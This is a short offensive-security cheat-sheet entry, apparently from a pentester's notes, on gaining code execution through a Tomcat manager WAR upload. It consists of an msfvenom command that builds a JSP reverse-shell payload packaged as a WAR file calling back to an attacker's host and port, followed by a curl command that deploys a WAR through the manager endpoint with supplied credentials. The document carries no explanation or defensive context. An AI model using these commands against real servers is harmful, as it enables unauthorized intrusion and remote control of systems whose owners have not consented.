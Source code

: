 # Manager WAR upload

### Using msfvenom

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f war > shell.war
```
_____

### Using curl

```bash
curl http://$USER:$PASSWORD@localhost:$PORT/manager/text/deploy?path=/deployed_war.war
```
